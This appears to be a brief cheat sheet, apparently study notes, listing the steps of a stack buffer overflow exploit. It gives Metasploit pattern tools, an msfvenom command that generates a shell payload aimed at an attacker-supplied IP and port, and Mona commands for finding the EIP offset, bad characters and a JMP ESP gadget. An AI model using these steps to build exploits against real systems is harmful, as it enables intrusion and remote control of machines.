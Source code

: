 # BOF

# Metasploit utilities

### Pattern

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` \
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb`

### Payload

`msfvenom -p <SHELL> LHOST=<IP> LPORT=<PORT> -b "<BADCHARS>" -f python`

# Mona commands

### Set working directory
`!mona config -set workingfolder c:\mona\%p`

### Get EIP offset
`!mona findmsp -distance 600`

### Create bytearray
`!mona bytearray -b "\x00\x0a"`

### Search for badchars
`!mona compare -f C:\mona\bytearray.bin -a <ESP_ADDRESS>`

### Search for JMP ESP 
`!mona jmp -r esp -cpb "<FOUND_BADCHARS>"`
